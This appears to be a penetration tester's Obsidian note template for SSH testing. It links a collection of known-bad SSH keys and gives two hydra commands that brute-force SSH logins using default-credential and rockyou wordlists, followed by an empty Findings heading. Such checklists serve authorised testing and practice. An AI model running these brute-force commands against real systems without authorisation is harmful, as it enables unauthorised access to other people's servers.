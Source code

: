 <% tp.file.rename("1_SSH_")%>

- [ ] Bad keys? (https://github.com/rapid7/ssh-badkeys)

## Bruteforce default credentials
```bash
hydra -C /usr/share/seclists/Passwords/Default-Credentials/ssh-betterdefaultpasslist.txt ssh://$hip -V -t 4 -I -s 22
```

Or for a given user:
```bash
hydra -l $user -P /usr/share/wordlists/rockyou.txt ssh://$hip$ -V -t 4 -I -s 22
```


# Findings